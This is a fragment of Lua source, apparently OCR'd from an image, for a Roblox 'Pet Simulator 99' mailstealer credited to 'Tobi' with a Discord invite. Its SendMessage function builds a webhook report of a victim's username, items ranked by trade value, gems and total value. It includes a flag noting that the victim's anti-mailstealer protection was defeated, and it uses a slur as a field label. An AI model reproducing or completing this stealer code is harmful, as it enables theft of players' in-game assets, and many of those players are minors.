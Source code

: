 local function SendMessage(username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json",
    }

	local fields = {
		{
			name = "Retard Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		},
        {
            name = "Summary:",
            value = "",
            inline = false
        }
	}

    local combinedItems = {}
    local itemRapMap = {}

    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end

    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)

    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
    end

    fields[3].value = fields[3].value .. "Gems: " .. formatNumber(diamonds) .. "\n"
    fields[3].value = fields[3].value .. "Total RAP: " .. formatNumber(totalRAP)
    if getFucked then
        fields[3].value = fields[3].value .. "\n\nVictim tried to use anti-mailstealer, but got fucked instead"
    end

    local data = {
        ["embeds"] = {{
            ["title"] = "\240\159\144\177 New PS99 Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/GY2RVSEGDT"
			}
        }}
    }
